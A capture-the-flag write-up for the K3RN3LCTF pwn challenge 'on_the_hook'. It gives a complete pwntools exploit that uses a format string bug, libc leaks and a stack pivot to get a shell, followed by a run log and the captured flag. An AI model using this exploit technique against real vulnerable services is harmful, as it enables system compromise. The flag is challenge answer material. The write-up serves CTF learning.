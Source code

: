 ## on_the_hook

> Points: 461
>
> Solves: 22

### Description:
Captain Malloc lost his hook find it and than grab a shell for your effort.

nc ctf.k3rn3l4rmy.com 2201

### Attachments:
```
https://ctf.k3rn3l4rmy.com/kernelctf-distribution-challs/on_the_hook/on_the_hook

https://ctf.k3rn3l4rmy.com/kernelctf-distribution-challs/on_the_hook/libc.so.6
```

## Analysis:

This binary is clearly vulnerable to FSB (Format String Bug). The binary uses a While Loop, so you can use the FSB 5 times.
However, because it is Full Relro, GOT overwrite cannot be performed, and the main function ends with exit (0), so the return address of the main function cannot be changed.


```c
$ ./on_the_hook 
echo:
%p,%p,%p
0x40,0xf7fa65a0,0x8049292     <---- FSB
```

```c
$ checksec on_the_hook
[*] '/home/mito/CTF/K3RN3LCTF/Pwn_on_the_hook/on_the_hook'
    Arch:     i386-32-little
    RELRO:    Full RELRO         <--- Full Relro
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Below is the decompiled result by Ghidra.
```c
void main(void)

{
  int in_GS_OFFSET;
  EVP_PKEY_CTX *in_stack_ffffffa0;
  int local_58;
  char local_54 [64];
  undefined4 local_14;
  undefined *puStack16;
  
  puStack16 = &stack0x00000004;
  local_14 = *(undefined4 *)(in_GS_OFFSET + 0x14);
  init(in_stack_ffffffa0);
  puts("echo:");
  local_58 = 1;
  while (local_58 < 6) {
    fgets(local_54,0x40,stdin);
    printf(local_54);
    local_58 = local_58 + 1;
  }
                    /* WARNING: Subroutine does not return */
  exit(0);
}

```

## Solution:

Since Got overlay is not possible, I considered the following two methods, but I used the former method. See the code in `solve_malloc_hook.py` for the latter.
--How to call system (/ bin / sh) by Stack pivot by rewriting the return address of printf
--Initiating a shell by writing One gadget to __malloc_hook

The Exploit code has done the following steps:
(1) Leak the Stack address using FSB to identify the return address
(2) Libc address leak using FSB to identify the address of the system function
(3) Using the ROP gadget of "add esp, 0x100; ret", write the address of the system function to the stack of the address where the return address to the main function is written + 0x104 bytes.
(4) As in (3), write the address of `/bin/sh` to the stack of the address where the return address to the main function is written + 0x10c bytes.
(5) Rewrite the return address that returns from printf to the main function to the address of "add esp, 0x100; ret".

When returning from printf to the main function in the above procedure, system ('/ bin / sh') can be started after "add esp, 0x100; ret".


The address of Stack pivot is obtained below.
```bash
$ ropper -f /lib/i386-linux-gnu/libc-2.23.so --nocolor > rop_l.txt
[INFO] Load gadgets for section: PHDR
[LOAD] loading... 100%
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%

mito@ubuntu:~/CTF/K3RN3LCTF/Pwn_on_the_hook$ grep ": add esp" rop_l.txt 
...
0x00076a71: add esp, 0x100; ret;
...
```

## Exploit code:
```python
from pwn import *

context(os='linux', arch='i386')
#context.log_level = 'debug'

BINARY = './on_the_hook'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "ctf.k3rn3l4rmy.com"
  PORT = 2201
  s = remote(HOST, PORT)
  libc = ELF("./libc.so.6")
  stack_pivot = 0x00076991 # add esp, 0x100; ret;  
else:
  s = process(BINARY)
  libc = elf.libc
  stack_pivot = 0x00076a71 # add esp, 0x100; ret; 
  #s = process(BINARY, env={'LD_PRELOAD': './libc.so.6'})
  #libc = ELF("./libc.so.6")
  #stack_pivot = 0x00076991 # add esp, 0x100; ret;  

index = 7

# Lead stack address
s.sendline("%21$p")
s.recvuntil("echo:\n")
stack_leak  = int(s.recvuntil('\n'), 16)
target_addr = stack_leak - 0x118
print("stack_leak  =", hex(stack_leak))
print("target_addr =", hex(target_addr))

# Leak libc address
s.sendline(p32(elf.got.setvbuf) + b"%7$s")
s.recv(4)
setvbuf     = u32(s.recv(4))
libc_base   = setvbuf - libc.sym.setvbuf
system_addr = libc_base + libc.sym.system
binsh_addr  = libc_base + next(libc.search(b'/bin/sh'))

print("setvbuf     =", hex(setvbuf))
print("libc_base   =", hex(libc_base))

# Write system address in stack
writes = {target_addr + 0x104: system_addr}
buf = fmtstr_payload(index, writes, write_size='short')
s.sendline(buf)

# Write /bin/sh address in stack
writes = {target_addr + 0x10c: binsh_addr}
buf = fmtstr_payload(index, writes, write_size='short')
s.sendline(buf)

# Stack pivot(add esp, 0x100; ret;) and Start /bin/sh
writes = {target_addr: libc_base + stack_pivot}
buf = fmtstr_payload(index, writes, write_size='short')
s.sendline(buf)

s.interactive()

```

## Results:
```bash
mito@ubuntu:~/CTF/K3RN3LCTF/Pwn_on_the_hook$ python3 solve_stack_pivot.py r
[*] '/home/mito/CTF/K3RN3LCTF/Pwn_on_the_hook/on_the_hook'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to ctf.k3rn3l4rmy.com on port 2201: Done
[*] '/home/mito/CTF/K3RN3LCTF/Pwn_on_the_hook/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
solve.py:21: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  s.sendline("%21$p")
solve.py:22: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  s.recvuntil("echo:\n")
solve.py:23: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  stack_leak  = int(s.recvuntil('\n'), 16)
stack_leak  = 0xff825894
target_addr = 0xff82577c
setvbuf     = 0xf7e24360
libc_base   = 0xf7dc4000
[*] Paused (press any to continue)
[*] Switching to interactive mode
...
$ id
uid=1000 gid=1000 groups=1000
$ ls -l
total 1920
-rw-rw-r-- 1 nobody nogroup      46 Nov 11 02:58 flag.txt
-rwxrwxr-x 1 nobody nogroup  147688 Nov 11 02:58 ld-2.23.so
-rwxrwxr-x 1 nobody nogroup 1786484 Nov 11 02:58 libc.so.6
-rwxrwxr-x 1 nobody nogroup   19672 Nov 11 22:59 run
$ cat flag.txt
flag{m4l1oc_h0ok_4nd_0n3_g4d9et_3a5y_a5_7h4t}

```

## Reference:

